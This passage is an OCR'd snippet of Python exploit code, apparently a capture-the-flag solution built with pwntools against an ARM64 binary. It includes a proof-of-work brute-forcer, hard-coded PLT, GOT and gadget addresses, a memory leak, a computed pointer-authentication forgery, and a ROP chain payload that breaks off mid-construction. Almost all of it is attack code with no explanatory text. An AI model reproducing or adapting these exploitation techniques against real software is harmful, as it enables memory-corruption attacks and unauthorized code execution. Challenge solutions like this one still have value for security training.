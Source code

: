 ```python
    r5=int(no[7][4])
    r4=int(no[7][5])
    r3=int(no[7][6])
    r2=int(no[7][7])
    r1=int(no[6][0])

    p7 = y7 ^ r7
    p6 = y6 ^ r6
    p5 = y5 ^ r5
    p4 = g1 ^ r4
    p3 = g2 ^ r3
    p2 = g3 ^ r2
    p1 = g4 ^ r1

    return (int(str(p7)+str(p6)+str(p5)+str(p4)+str(p3)+str(p2)+str(p1), 2) << 48) | inp

puts_plt = 0x4006c0
printf_got = 0x411fe0
name_addr = 0x412030
gadget1 = 0x400fd8
gadget2 = 0x400ff8
main = 0x400e84

def bruteforce(pt, ct):
    hashtype = sha256
    pt = pt.decode()
    digest = ct.decode()
    prefix = mbruteforce(
        lambda x: hashtype((x+pt).encode()).hexdigest() == digest,
        string.ascii_letters+string.digits,
        length = 4,
        method = "fixed"
    )
    return prefix

def poc(io):
    pt, ct = io.recvuntil('xxxx:\n')[:-15].split(' == ')
    io.sendline(bruteforce(pt[12:-1],ct))

def pwn(io):
    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
```